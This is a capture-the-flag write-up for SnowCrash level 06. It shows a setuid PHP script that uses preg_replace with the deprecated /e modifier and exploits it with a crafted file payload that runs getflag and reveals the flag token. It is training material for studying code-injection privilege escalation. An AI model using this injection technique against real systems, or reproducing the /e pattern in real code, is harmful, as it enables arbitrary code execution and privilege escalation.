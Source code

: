 # Level 06

## Vulnerability

Privilege escalation - PHP code injection

Deprecated /e regex modifier in script owned by privileged user

## Context

```
level06@SnowCrash:~$ ls -l
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

## Solution

The binary ```level06``` is executed as user flag06, thanks to the suid bit. We should be able to exploit this, and have it run getflag for us. Lets look at the .php file and investigate how.
```
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
    }
function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
    }
$r = x($argv[1], $argv[2]);
print $r;
?>
```
We find preg_replace() used with the /e modifier. The [official doc](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php) tells us this modifier is depecrated because it introduces a vulnerability:
> If this deprecated modifier is set, preg_replace() does normal substitution of backreferences in the replacement string, evaluates it as PHP code, and uses the result for replacing the search string.

> Caution: Use of this modifier is discouraged, as it introduces remote code execution vulnerabilities. An attacker can execute arbitrary PHP code and gain access to the server.

The script prints the content of given variable "x". Using ``` `getflag` ``` as the variable name, we can print the return value of getflag.

So lets create a file whose content matches the regexp test ```"/(\[x (.*)\])/e"```, and inject ``` `getflag` ``` in correct [php syntax](https://www.php.net/manual/en/language.types.string.php#language.types.string.syntax.nowdoc).
```
level06@SnowCrash:~$ echo '[x {${`getflag`}}]' > /dev/shm/getflag
level06@SnowCrash:~$ ./level06 /dev/shm/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```
